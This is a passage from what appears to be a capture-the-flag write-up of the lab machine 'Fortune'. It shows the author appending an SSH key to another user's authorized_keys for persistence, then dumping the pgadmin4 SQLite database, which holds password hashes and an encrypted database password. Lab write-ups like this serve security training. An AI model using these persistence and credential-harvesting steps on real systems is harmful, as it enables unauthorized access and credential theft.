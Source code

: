 ```
Hi Charlie,

Thanks for setting-up pgadmin4 for me. Seems to work great so far.
BTW: I set the dba password to the same as root. I hope you don't mind.

Cheers,

Bob
```

To get a proper shell, I added my SSH key to `authorized_keys`:

```
test1324@ragingunicorn:/mnt/charlie$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABA[...]pgYyFnLt3ysDhscPOtelvd root@ragingunicorn" >> .ssh/authorized_keys
```

Now I can log in as `charlie`

```
root@ragingunicorn:~# ssh charlie@fortune.htb
OpenBSD 6.4 (GENERIC) #349: Thu Oct 11 13:25:13 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.
fortune$
```

In `/var/appsrv/pgadmin4`, I find the database for the `pgadmin` application: `pgadmin4.db`

It's a sqlite database and I already have tools to view this:

```
fortune$ file pgadmin4.db
pgadmin4.db: SQLite 3.x database
```

I find the user authentication table as well as the server table that contains the encrypted `dba` account password:

```
fortune$ sqlite3 pgadmin4.db
SQLite version 3.24.0 2018-06-04 19:24:41
Enter ".help" for usage hints.
sqlite> .tables
alembic_version              roles_users
debugger_function_arguments  server
keys                         servergroup
module_preference            setting
preference_category          user
preferences                  user_preferences
process                      version
role
sqlite> select * from user;
1|charlie@fortune.htb|$pbkdf2-sha512$25000$3hvjXAshJKQUYgxhbA0BYA$iuBYZKTTtTO.cwSvMwPAYlhXRZw8aAn9gBtyNQW3Vge23gNUMe95KqiAyf37.v1lmCunWVkmfr93Wi6.W.UzaQ|1|
2|bob@fortune.htb|$pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vg|1|

sqlite> select * from server;
1|2|2|fortune|localhost|5432|postgres|dba|utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz||prefer||||||<STORAGE_DIR>/.postgresql/postgresql.crt|<STORAGE_DIR>/.postgresql/postgresql.key|||0||||0||22||0||0|
```
